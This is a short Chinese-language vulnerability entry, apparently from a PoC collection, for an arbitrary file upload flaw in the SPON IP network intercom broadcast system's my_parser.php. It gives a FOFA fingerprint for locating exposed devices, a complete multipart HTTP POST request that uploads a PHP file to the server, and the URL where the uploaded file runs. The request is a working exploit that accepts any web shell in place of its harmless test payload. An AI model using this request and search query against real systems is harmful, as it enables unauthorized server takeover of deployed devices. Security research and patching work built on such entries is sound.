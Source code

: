 ## 世邦通信SPON-IP网络对讲广播系统my_parser.php任意文件上传漏洞

世邦通信 SPON IP网络对讲广播系统 my_parser.php 存在任意文件上传漏洞，攻击者可以通过漏洞上传任意文件甚至木马文件，从而获取服务器权限。

## fofa

```
icon_hash="-1830859634"
```

## poc

```
POST /upload/my_parser.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/39.0.2171.71 Safari/537.36
Content-Length: 279
Content-Type: multipart/form-data; boundary=0300a03a9419748c18d96a7e6e03d7be6f7f3f1ef6df950f196738fe8230
Accept-Encoding: gzip, deflate, br
Connection: close

--0300a03a9419748c18d96a7e6e03d7be6f7f3f1ef6df950f196738fe8230
Content-Disposition: form-data; name="upload"; filename="test.php"
Content-Type: application/octet-stream

<?php echo md5(1);unlink(__FILE__);?>
--0300a03a9419748c18d96a7e6e03d7be6f7f3f1ef6df950f196738fe8230--
```

![image-20240618124826420](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406181248478.png)

访问路径：`http://127.0.0.1/upload/files/test.php`